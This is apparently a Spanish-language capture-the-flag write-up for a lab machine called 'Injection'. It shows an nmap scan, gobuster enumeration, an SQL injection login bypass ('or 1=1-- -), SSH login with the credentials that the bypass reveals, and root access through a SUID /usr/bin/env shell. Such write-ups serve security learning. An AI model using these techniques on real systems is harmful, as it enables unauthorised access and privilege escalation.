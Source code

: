 # Máquina Injection
- Dificultad: muy fácil

## Escaneo con nmap
<p>Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.</p>

```
nmap -sCV -sS -n -Pn -p- 172.17.0.2

```

```
Nmap scan report for 172.17.0.2
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
<p>El puerto 22 y el 80 estan abiertos con los servicios SSH y Apache, primero revisamos el servicio web y utilizamos gobuster para buscar posibles directorios.</p>

## Gobuster

```
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/.html                (Status: 403) [Size: 275]
/config.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================


```
<p>Encontramos dos archivos php, en config.php no encontré nada asi que revisamos el index.php.</p>


<p>Probamos una inyección SQL simple colocando 'or 1=1-- - en el nombre de usuario y cualquier cosa en la contraceña.</p>


<p>Logramos logearnos y  vemos que hay un usuario y una contraseña, los usamos en el ssh.</p>

## SSH

```
ssh 172.17.0.2 -l dylan

```
<p>Nos pide la contraceña, la escribimos y estamos dentro.</p>

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 

```

## Escalando privilegios

<p>Buscamos binarios con permisos SUID.</p>

```
find / -perm -4000 -user root 2>/dev/null

```

```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

<p>Aparece el binario /usr/bin/env asi que ejecutamos el sigiente comando desde la raiz del sistema y estamos como root.</p>

```
./usr/bin/env /bin/sh -p

```

```
# whoami
root
# 
```
